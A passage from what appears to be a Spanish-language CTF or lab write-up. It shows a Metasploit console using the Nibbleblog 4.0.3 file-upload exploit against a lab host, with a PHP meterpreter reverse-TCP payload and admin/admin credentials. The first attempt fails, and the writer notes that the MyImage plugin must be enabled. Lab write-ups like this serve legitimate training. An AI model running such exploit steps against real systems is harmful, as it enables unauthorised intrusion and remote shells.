```bash
                                         ort][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com
                                         /docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the web application
   USERNAME                    yes       The username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.217    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Nibbleblog 4.0.3



View the full module info with the info, or info -d command.

[msf](Jobs:0 Agents:0) exploit(multi/http/nibbleblog_file_upload) >> set rhosts 172.17.0.2
rhosts => 172.17.0.2
[msf](Jobs:0 Agents:0) exploit(multi/http/nibbleblog_file_upload) >> set targeturi /nibbleblog
targeturi => /nibbleblog
[msf](Jobs:0 Agents:0) exploit(multi/http/nibbleblog_file_upload) >> set username admin
username => admin
[msf](Jobs:0 Agents:0) exploit(multi/http/nibbleblog_file_upload) >> set password admin
password => admin
[msf](Jobs:0 Agents:0) exploit(multi/http/nibbleblog_file_upload) >> run

[*] Started reverse TCP handler on 192.168.1.217:4444 
[-] Exploit aborted due to failure: unknown: Unable to upload payload.
[*] Exploit completed, but no session was created.
[msf](Jobs:0 Agents:0) exploit(multi/http/nibbleblog_file_upload) >>
```

Nos da error, vemos bien el exploit en ExploitDb y nos infromamos por mas sitios y vemos que se necesita tener activado el plugin MyImage, asi que vamos a plugins y lo instalamos y le damos a save
